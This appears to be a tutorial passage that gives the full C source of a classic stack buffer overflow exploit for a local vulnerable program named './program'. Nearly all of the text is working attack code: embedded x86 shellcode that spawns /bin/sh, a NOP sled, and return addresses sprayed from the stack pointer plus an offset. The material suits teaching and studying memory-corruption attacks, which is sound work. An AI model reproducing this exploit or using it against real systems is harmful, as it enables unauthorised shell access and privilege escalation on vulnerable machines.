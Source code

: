 - exploit for vulnerable program, where shellcode is hexadecimal string encoding machine instructions (note that shellcode can also be written in assembly and inserted into executable by compiler, `gcc -o exploit exploit.c shellcode.s`, and `extern char shellcode[];` instead of `unsigned char code[] = ... ;`)

    ```c
    /* exploit.c */
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    #define PROGRAM "./program"

    /* shellcode */
    unsigned char code[] =
        "\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43"
        "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh";

    /* inline macro to get stack pointer */
    __inline__ unsigned int get_esp(void) {
        unsigned int res;
        __asm__("movl %%esp, %0" : "=a" (res));
        return res;
    }

    int main(int argc, char **argv) {
        unsigned int address, i, offset = 0;
        char buffer[768];
        char *n[] = { PROGRAM, buffer, NULL };

        /* offset from base address */
        if (argv[1]) {
            offset = strtol(argv[1], NULL, 10);
        }

        address = get_esp() + offset;
        fprintf(stderr, "using address %#010x\n", address);
        memset(buffer, 0, sizeof(buffer));

        /* fill buffer with addresses, four byte at a time */
        for (i = 0; i < sizeof(buffer); i += 4) {
            *(unsigned int *)(buffer + i) = address;
        }

        /* nop-sled to fill half buffer with nop */
        memset(buffer, 0x90, sizeof(buffer)/2);

        /* place shellcode after nop-sled, rest is filled with addresses */
        memcpy(buffer + sizeof(buffer)/2, code, strlen(code));

        execve(n[0], n, NULL);
        perror("execve");
        exit(1);
    }
    ```
